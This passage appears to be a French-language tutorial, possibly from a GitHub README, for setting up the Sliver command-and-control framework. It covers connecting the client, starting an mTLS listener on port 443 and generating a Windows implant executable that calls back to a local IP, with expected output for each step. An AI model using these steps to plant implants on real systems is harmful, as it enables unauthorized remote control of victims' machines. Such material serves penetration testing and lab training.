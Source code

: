 ### **ÉTAPE 6** : Connecter le client (nouveau terminal)
```bash
# Ouvrir un NOUVEAU terminal (Ctrl+Shift+T)
sliver-client
```
**✅ Résultat attendu** : 
```
Connecting to localhost:31337 ...
[*] Successfully connected to server
sliver >
```

---

## 🎯 PHASE 3 : CONFIGURATION DES LISTENERS

### **ÉTAPE 7** : Créer un listener mTLS
```bash
# Dans le client Silver (sliver >)
mtls --lport 443
```
**✅ Résultat attendu** :
```
[*] Starting mTLS listener ...
[*] Successfully started job #1
```

### **ÉTAPE 8** : Vérifier les listeners actifs
```bash
jobs
```
**✅ Résultat attendu** :
```
 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    mtls   tcp        443
```

---

## 💾 PHASE 4 : GÉNÉRATION DE PAYLOADS

### **ÉTAPE 9** : Créer un répertoire de travail
```bash
# Dans un NOUVEAU terminal (garder Silver ouvert)
mkdir ~/silver-payloads
cd ~/silver-payloads
```

### **ÉTAPE 10** : Générer votre premier payload Windows
```bash
# Retourner dans le client Silver (sliver >)
generate --mtls 192.168.1.100:443 --os windows --arch amd64 --format exe --save /home/kali/silver-payloads/payload.exe
```
**🔴 REMPLACER** `192.168.1.100` par VOTRE IP de l'étape 4

